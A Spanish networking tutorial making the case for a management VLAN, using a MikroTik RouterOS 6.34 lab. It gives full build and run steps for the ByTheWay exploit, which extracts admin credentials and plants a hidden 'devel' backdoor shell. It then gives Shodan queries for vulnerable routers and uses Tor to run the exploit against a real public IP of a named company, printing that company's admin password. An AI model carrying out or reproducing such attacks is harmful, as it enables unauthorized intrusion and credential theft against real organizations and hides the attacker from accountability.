6.3 VLAN para la gestión de los equipos de comunicación/red
1. Introducción
Por seguridad, se debería denegar el acceso a internet del equipo que se conecta a la VLAN de gestión de los equipos. Sólo se debería tener acceso para instalar firmware de los equipos, configuración de los mismos, etcétera, puntualmente.
2. Escenario
- Router mikrotik con una versión que tiene vulnerabilidades, en concreto, la 6.34.6.
El router se conecta a un switch que está conectado con Internet y a otro router con una versión más reciente la 7.2.3.

Imagen Routeros insegura:
Si accedemos al mikrotik 6.34 vemos que ha obtenido una ip en el rango del virbr0.

La obtiene del virbr0 (ip a en el equipo anfitrión).

3. Objetivo
El objetivo es que estos equipos no sean accesibles desde la red 192.168.122.0 (ejemplo que el anfitrión no pueda acceder) ni del resto de redes de la infraestructura. Ahora si se puede, ejemplo, mediante el navegador web: http://192.168.122.97. (usuario admin password hola01).

4. Vulnerabilidad en router Mikrotik
Supongamos que desde un equipo que está en la red 192.168.122.0, nos descargamos lo siguiente: exploit bytheway.

Previamenet hay que instalar cmake y boost:
jc@jc-Latitude-E6430:~$apt install cmake
Después hay que instalar boost:
jc@jc-Latitude-E6430:~$wget https://boostorg.jfrog.io/artifactory/main/release/1.79.0/source/boost_1_79_0.tar.gz
jc@jc-Latitude-E6430:~$tar zxvf boost_1_79_0.tar.gz
jc@jc-Latitude-E6430:~$cd boost_1_79_0
jc@jc-Latitude-E6430:~$./bootstrap.sh
jc@jc-Latitude-E6430:~$./b2 -j16 --prefix=$(pwd) --libdir=$(pwd)/lib64 --layout=system link=static install
A continuación, hay que instalar las librerías boost:
jc@jc-Latitude-E6430:~$sudo apt-get install libboost-all-dev
Una ves instaladas las librerías, hay que descargar y compilar bytheway.
jc@jc-Latitude-E6430:~$git clone https://github.com/tenable/routeros.git

jc@jc-Latitude-E6430:~$cd routeros/poc/bytheway
jc@jc-Latitude-E6430:~$mkdir build
jc@jc-Latitude-E6430:~$cd ./build/
jc@jc-Latitude-E6430:~$cmake ..
#o especificamos la ruta donde se tiene boost
jc@jc-Latitude-E6430:~$cmake .. -DBOOST_ROOT=/home/jc/Descargas/boost_1_79_0
jc@jc-Latitude-E6430:~$make
jc@jc-Latitude-E6430:~$./btw -i 192.168.122.97

jc@jc-Latitude-E6430:~$./btw -i 192.168.122.97
Para este caso, la ip 192.168.122.97 es la del mikrotik 6.34.
Este exploit lo que va a hacer es:
- Va a conectarse al router mikrotik y va a intentar extraer las credenciales de administrador del mismo aprovechándose de una vulnrabilidad que tiene la versión 6.34.
- Al ejecutar el comando, se obtienen las credenciales (Using credentials).

El exploit se ha conectado al puerto 8291 (winbox) y por un exploit en el sistema operativo del router en su versión 6.34, ha conseguido obtener las credenciales. Pero no solo eso, también nos ha habilitado para que podamos acceder a una terminal como desarrollador. /flash/nova se considera una backdoor.
‘Creating /flash/nova/etc/devel-login on 192.168.122.97:8291’
De manera que si se hace un telnet con el usuario devel y la contraseña que se ha extraído anteriormente, accederemos.
telnet -l devel 192.168.122.97

Hemos accedido en un BusyBox, es decir, estamos dentro del sistema Linux (el Sistema operativo del mikrotik es linux). Si ejecutamos uname -a, vemos la versión del kernel.

Estamos dentro de un backdoor, por lo que un administrador no se daría cuenta nunca de que alguien ha accedido de esta manera. Aunque cambiara la contraseña del administrador, podríamos entrar igual ya que el usuario devel no es visible.
5. ¿Porqué hemos podido explotar esta vulnerabilidad?
Se ha podido explotar la vulnearbilidad ya que hemos podido acceder desde un Equipo en la red al equipo Mikrotik y eso es lo que no se puede permitir. Por eso, hay que segmentar los dispositivos y configurar una vlan para la gestión de los mismos, ejemplo: VLAN 100. De esta forma, no se depende de las posibles vulnerabilidades de los equipos ya que nos preocupamos que no se puedan acceder a ellos. Esta es la explicación del porqué configurar una VLAN de gestión de dispositivos.
6. Si esto lo extrapolamos a la vida real
Mediante shodan.io, podemos buscar servicios/puertos abiertos por todas las ip's públicas del mundo.

Si queremos buscar versiones de mikrotik inferiores a 6.42, hay que poner en el buscador: port:8291 os:"Mikrotik RouterOS 6.39.2". Con esto, le estamos indicando shodan que busque ips públicas en todo el mundo que tengan un mikrotik 6.39.2 que es vulnerable.

Si hacemos una consulta solo por el puerto, encuentra más de 2 millones.

Para explotar el exploit sobre una ip pública que aparece en los resultados, podemos hacer uso de tor, para que no aparezca nuestra ip publica en la explotación del exploit. Para ello instalamos el siguiente paquete (proxy):
jc@jc-Latitude-E6430:~$sudo apt install tor
Fuente: https://linuxconfig.org/install-tor-proxy-on-ubuntu-20-04-linux
Ahora, elegimos una ip publica para la versión 6.34.4 que es vulnerable, para este caso de ejemplo, se elige:
45.115.254.150
Elxire IT Services Pvt. Ltd.
IndiaIndia, Delhi

A continuación, habilitamos el proxy tor:
jc@jc-Latitude-E6430:~$source torsocks on

A continuación, ejecutamos el exploit:
jc@jc-Latitude-E6430:~$./btw -i 45.115.254.150

Como se puede observar, el usuario es admin y la contraseña elxire:_2014.
Si comprobamos nuestra ip pública con la que salimos (tor activado), nos da la 185.220.100.246.
jc@jc-Latitude-E6430:~$curl 'https://api.ipify.org?format=json'

Pero esa no es la ip pública nuestra verdadera, si desactivamos tor, podremos consultar la verdadera y que es la 84.123.178.36.
jc@jc-Latitude-E6430:~$ source torsocks off
jc@jc-Latitude-E6430:~$ curl 'https://api.ipify.org?format=json'


Otra forma de obtenerla es con el comando:
jc@jc-Latitude-E6430:~$ wget -qO - https://api.ipify.org; echo

7. Conclusiones
Los dispositivos de red no tienen que estar expuestos ni internamente ni externamente ya sea con ip pública o privada.
En el siguiente vídeo se describe el proceso del ataque ByTheway sobre un Mikrotik vulnerable.
Vídeo 1. Ataque ByTheway RouterOS.
Obra publicada con Licencia Creative Commons Reconocimiento No comercial Compartir igual 4.0